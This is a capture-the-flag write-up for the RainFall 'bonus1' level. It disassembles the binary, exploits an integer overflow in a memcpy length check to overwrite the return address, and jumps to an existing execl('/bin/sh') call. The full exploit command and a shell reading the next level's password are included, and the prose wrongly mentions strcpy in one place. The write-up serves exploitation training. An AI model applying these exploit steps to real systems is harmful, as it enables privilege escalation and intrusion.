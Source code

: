 # bonus1

## exploring the binary
```shell
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 phantom
bonus1@RainFall:~$
```
The binary accepts argument values and crashes when called with no arguments. Let's explore the functions:

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048424 <+0>:	push   %ebp
   0x08048425 <+1>:	mov    %esp,%ebp
   0x08048427 <+3>:	and    $0xfffffff0,%esp
   0x0804842a <+6>:	sub    $0x40,%esp
   0x0804842d <+9>:	mov    0xc(%ebp),%eax
   0x08048430 <+12>:	add    $0x4,%eax
   0x08048433 <+15>:	mov    (%eax),%eax
   0x08048435 <+17>:	mov    %eax,(%esp)
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    %eax,0x3c(%esp)
   0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    $0x1,%eax
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    0x3c(%esp),%eax
   0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:	mov    0xc(%ebp),%eax
   0x0804845d <+57>:	add    $0x8,%eax
   0x08048460 <+60>:	mov    (%eax),%eax
   0x08048462 <+62>:	mov    %eax,%edx
   0x08048464 <+64>:	lea    0x14(%esp),%eax
   0x08048468 <+68>:	mov    %ecx,0x8(%esp)
   0x0804846c <+72>:	mov    %edx,0x4(%esp)
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	movl   $0x0,0x8(%esp)
   0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:	movl   $0x8048583,(%esp)
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    $0x0,%eax
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
End of assembler dump.
```
We observe that <code>atoi()</code> is invoked on <code>av[1]</code> to convert it into an integer. The resultant value is then stored in memory, offset from the stack pointer, and compared against 9 using <code>jle</code>. Should the number exceed 9, <code>eax</code> is assigned the value 1, triggering a jump to the exit sequence. Otherwise, the <code>atoi()</code> result is multiplied by 4 and later in the function compared to <code>0x574f4c46</code> (1464814662). Another call we observe is to the <code>strcpy()</code> function, where a string from <code>av[2]</code> is combined with the multiplied number.

## buffer overflow
Another call we observe is to the <code>memcpy()</code> function, where a string from <code>av[2]</code> is combined with the multiplied number. Since the copying function doesn't inherently perform boundary checks, we decide that a <code>buffer overflow</code> attack is our way forward. We can determine the offset value as before, but we need to figure out how to significantly increase the value of the multiplied number, since the biggest value we can achieve is 36.

The maximum value for an unsigned 32-bit integer is 4294967295. Dividing this number by 4 gives us 1073741824. This may still be too large, so we decide to decrease the final number by 280. By subtracting 70 from the digit and passing -1073741754 as the first argument, we are able to test for the offset.

``` shell
(gdb) run -1073741824 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
Starting program: /home/user/bonus1/bonus1 -1073741824 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
[Inferior 1 (process 5146) exited normally]
(gdb) run -1073741799 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
Starting program: /home/user/bonus1/bonus1 -1073741799 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'

Program received signal SIGSEGV, Segmentation fault.
0x39624138 in ?? ()
```
The final step is to invoke <code>/bin/bash</code>. We have already observed that the <code>execl()</code> function is called within the <code>main()</code> function, which piqued our interest. Just before this call, two immediate values are pushed onto the stack (<code>%esp</code>), which will ultimately initiate the shell for us:
``` shell
(gdb) x/s 0x8048580
0x8048580:	 "sh"
(gdb) x/s 0x8048583
0x8048583:	 "/bin/sh"
```
Due to this, our exploit jumps to the address <code>0x08048482</code> to continue executing the desired sequence.

## exploit
``` shell
bonus1@RainFall:~$ ./bonus1 -1073741799 $(python -c 'print "\x90" * 56 + "\x08\x04\x84\x82"[::-1]')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
